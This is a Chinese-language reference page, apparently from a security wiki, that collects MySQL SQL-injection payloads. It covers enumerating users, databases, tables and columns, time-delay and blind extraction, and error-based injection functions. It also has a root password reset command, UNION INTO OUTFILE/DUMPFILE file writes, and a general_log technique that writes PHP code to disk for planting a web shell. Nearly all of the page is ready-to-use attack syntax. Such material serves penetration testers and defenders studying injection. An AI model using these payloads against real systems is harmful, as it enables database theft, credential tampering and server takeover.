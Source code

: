 MySQL Payload
========================================

常见Payload
----------------------------------------
- Version 
    - ``SELECT @@version``
- Comment 
    - ``SELECT 1 -- comment``
    - ``SELECT 1 # comment``
    - ``SELECT /*comment*/1``
- Space
    - ``0x9`` ``0xa-0xd`` ``0x20`` ``0xa0``
- Current User
    - ``SELECT user()``
    - ``SELECT system_user()``
- List User
    - ``SELECT user FROM mysql.user``
- Current Database
    - ``SELECT database()``
- List Database
    - ``SELECT schema_name FROM information_schema.schemata``
- List Tables
    - ``SELECT table_schema,table_name FROM information_schema.tables WHERE table_schema != 'mysql' AND table_schema != 'information_schema'``
- List Columns
    - ``SELECT table_schema, table_name, column_name FROM information_schema.columns WHERE table_schema != 'mysql' AND table_schema != 'information_schema'``
- If
    - ``SELECT if(1=1,'foo','bar');`` return 'foo'
- Ascii
    - ``SELECT char(0x41)``
    - ``SELECT ascii('A')``
    - ``SELECT 0x414243`` => return ``ABC``
- Delay
    - ``sleep(1)``
    - ``SELECT BENCHMARK(1000000,MD5('A'))``
- Read File
    - ``select @@datadir``
    - ``select load_file('databasename/tablename.MYD')``
- Blind
    - ``ascii(substring(str,pos,length)) & 32 = 1``
- Error Based
    - ``select count(*),(floor(rand(0)*2))x from information_schema.tables group by x;``
    - ``select count(*) from (select 1 union select null union select !1)x group by concat((select table_name from information_schema.tables limit 1),floor(rand(0)*2))``
- Change Password
    - ``mysql -uroot -e "use mysql;UPDATE user SET password=PASSWORD('newpassword') WHERE user='root';FLUSH PRIVILEGES;"``

报错注入常见函数
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- extractvalue
- updatexml
- GeometryCollection
- linestring
- multilinestring
- multipoint
- multipolygon
- polygon
- exp

写文件
----------------------------------------

写文件前提
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- root 权限
- 知晓文件绝对路径
- 写入的路径存在写入权限
- secure_file_priv 允许向对应位置写入
- ``select count(file_priv) from mysql.user``

基于 into 写文件
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
.. code-block:: sql

    union select 1,1,1 into outfile '/tmp/demo.txt'
    union select 1,1,1 into dumpfile '/tmp/demo.txt'

dumpfile和outfile不同在于，outfile会在行末端写入新行，会转义换行符，如果写入二进制文件，很可能被这种特性破坏

基于 log 写文件
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
.. code-block:: sql

    show variables like '%general%';
    set global general_log = on;
    set global general_log_file = '/path/to/file';
    select '<?php var_dump("test");?>';
    set global general_log_file = '/original/path';
    set global general_log = off;
